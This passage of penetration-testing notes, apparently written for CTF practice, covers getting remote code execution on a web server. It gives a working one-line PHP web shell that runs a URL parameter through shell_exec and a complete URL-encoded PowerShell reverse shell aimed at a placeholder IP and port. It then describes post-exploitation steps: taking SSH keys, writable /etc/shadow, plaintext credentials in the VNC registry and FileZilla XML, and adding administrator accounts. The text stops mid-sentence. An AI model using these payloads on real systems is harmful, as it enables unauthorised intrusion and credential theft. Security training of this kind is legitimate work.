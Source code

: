 In a very basic one line format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

![[Pasted image 20240820044659.png]]

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


## **Next Steps**

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:
